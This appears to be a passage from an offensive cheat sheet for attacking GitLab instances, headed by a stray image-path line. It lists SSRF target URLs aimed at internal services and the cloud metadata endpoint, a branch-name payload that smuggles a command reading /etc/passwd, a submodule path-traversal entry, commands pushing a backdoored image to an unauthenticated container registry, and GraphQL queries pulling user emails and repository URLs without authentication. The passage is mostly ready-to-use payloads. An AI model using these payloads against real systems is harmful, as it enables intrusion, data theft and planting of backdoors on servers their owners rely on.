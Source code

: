### 3. Webhook SSRF
```ruby
# Webhook URL validation bypass
http://0.0.0.0:6379/
http://127.0.0.1:6379/
http://localhost:6379/
http://[::1]:6379/
http://169.254.169.254/latest/meta-data/

# GitLab internal services
http://localhost:9090/  # Prometheus
http://localhost:5000/  # Container registry
```

### 4. Git Command Injection
```bash
# Via malicious branch names
git push origin 'master;cat /etc/passwd'

# Via submodules
[submodule "evil"]
    path = evil
    url = ssh://git@localhost/../../etc/passwd
```

### 5. Container Registry Exploitation
```bash
# Pull without authentication
docker pull localhost:5000/project/image

# Push malicious image
docker tag evil:latest localhost:5000/victim/backdoor
docker push localhost:5000/victim/backdoor
```

### 6. GraphQL API Information Disclosure
```graphql
# Access without authentication
{
  users {
    nodes {
      username
      email
      state
      createdAt
    }
  }
}

# Extract projects
{
  projects {
    nodes {
      name
      visibility
      httpUrlToRepo
    }
  }
}
```
